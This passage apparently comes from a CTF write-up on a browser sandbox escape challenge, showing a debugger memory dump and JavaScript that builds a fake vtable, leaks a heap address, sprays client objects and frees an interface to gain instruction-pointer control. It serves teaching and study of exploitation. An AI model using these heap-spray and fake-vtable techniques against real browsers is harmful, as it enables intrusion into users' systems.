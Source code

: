 ```
0x12c000ee7810:	0x4141414141414141	0x4141414141414141
0x12c000ee7820:	0x4141414141414141	0x4141414141414141
0x12c000ee7830:	0x4141414141414141	0x4141414141414141
0x12c000ee7840:	0x4141414141414141	0x4141414141414141
```

Much better! We now have a virtual call with a controlled vtable pointer. The easiest way to exploit this is to store a fake vtable in the `box_` of a `SandboxImpl`, leak its address using `GetHeapAddress` and point our fake `SandboxImpl`'s vtable there for RIP control.

```js
  let fake = newClient();
  let fake_vtable = new BigUint64Array(0x800 / 8);

  fake_vtable.fill(0x41414141n);
  fake.pourSand(new Uint8Array(fake_vtable.buffer));

  const heap_leak = (await fake.getHeapAddress()).addr;
  let boxed_mem = BigInt(heap_leak) + 0x18n;
  print(`Fake VTable at: ${hex(boxed_mem)}`);

  let clients = [];
  for (let i = 0; i < 1000; i++) {
    clients.push(newClient());
  }

  let spray = [];
  for (let i = 0; i < 100; i++) {
    spray.push(newClient());
  }

  let iface = newClient();

  let arg2 = new BigUint64Array(0x1020 / 8);
  arg2.fill(0x4141414141414141n);
  arg2[0x800 / 8] = BigInt(boxed_mem) + 1n;
  arg2[0x800 / 8 + 0x818 / 8] = 0n;
  let arg = new Uint8Array(arg2.buffer);

  for (let i = 0; i < clients.length; i++) {
    clients[i].pourSand(arg);
  }

  for (let i = 0; i < 100; i++) {
    iface.pourSand(arg);
    iface.ptr.reset();
    iface = newClient();
  }

  for (let i = 0; i < spray.length; i++) {
    spray[i].pourSand(arg);
  }
```
